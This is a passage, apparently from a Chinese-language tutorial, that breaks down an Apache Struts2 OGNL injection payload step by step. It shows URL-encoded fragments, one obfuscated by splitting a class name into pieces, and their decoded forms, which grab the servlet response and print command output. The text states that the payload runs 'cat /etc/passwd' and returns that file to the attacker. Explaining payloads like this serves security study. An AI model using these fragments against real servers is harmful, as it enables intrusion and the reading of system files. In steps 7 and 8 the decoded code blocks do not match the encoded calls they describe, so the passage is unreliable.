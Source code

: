 3. `%23str%3d%23s.hasNext()?%23s.next():%27%27` 部分将执行 `s.hasNext()` 方法判断是否还有输入内容，如果有则调用 `s.next()` 方法获取输入内容并将其赋值给 `str` 变量，如果没有则将空字符串赋值给 `str` 变量。

   ```java
   %23str%3d%23s.hasNext()?%23s.next():%27%27
   ####
   #str=#s.hasNext()?#s.next():''
   ```

4. `%23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27)` 部分从 `context` 对象中获取 `com.opensymphony.xwork2.dispatcher.HttpServletResponse` 对象，并将其赋值给 `resp` 变量。

   ```java
   %23resp%3d%23context.get(%27co%27%2b%27m.open%27%2b%27symphony.xwo%27%2b%27rk2.disp%27%2b%27atcher.HttpSer%27%2b%27vletRes%27%2b%27ponse%27),
   
   ####
   #resp=#context.get('co'+'m.open'+'symphony.xwo'+'rk2.disp'+'atcher.HttpSer'+'vletRes'+'ponse'),
   ```

5. `%23resp.setCharacterEncoding(%27UTF-8%27)` 部分设置响应的字符编码为 `UTF-8`。

   ```java
   %23resp.setCharacterEncoding(%27UTF-8%27)
   ####
   #resp.setCharacterEncoding('UTF-8')
   ```

6. `%23resp.getWriter().println(%23str)` 部分通过 `getWriter()` 方法获取 `PrintWriter` 对象，并使用 `println()` 方法将 `str` 写入响应输出流。

   ```java
   %23resp.getWriter().println(%23str)
   ####
   #resp.getWriter().println(#str)
   ```

7. `%23resp.getWriter().flush()` 部分刷新响应输出流。

   ```java
   %23resp.getWriter().println(%23str)
   ####
   #resp.getWriter().println(#str)
   ```

8. `%23resp.getWriter().close()` 部分关闭响应输出流。

   ```java
   %23resp.getWriter().flush(),%23resp.getWriter().close()
   ####
   #resp.getWriter().println(#str)
   ```

这个 payload 的目的是通过执行命令 `cat /etc/passwd` 并将结果写入响应输出流中，从而将 `/etc/passwd` 文件的内容返回给请求的客户端。



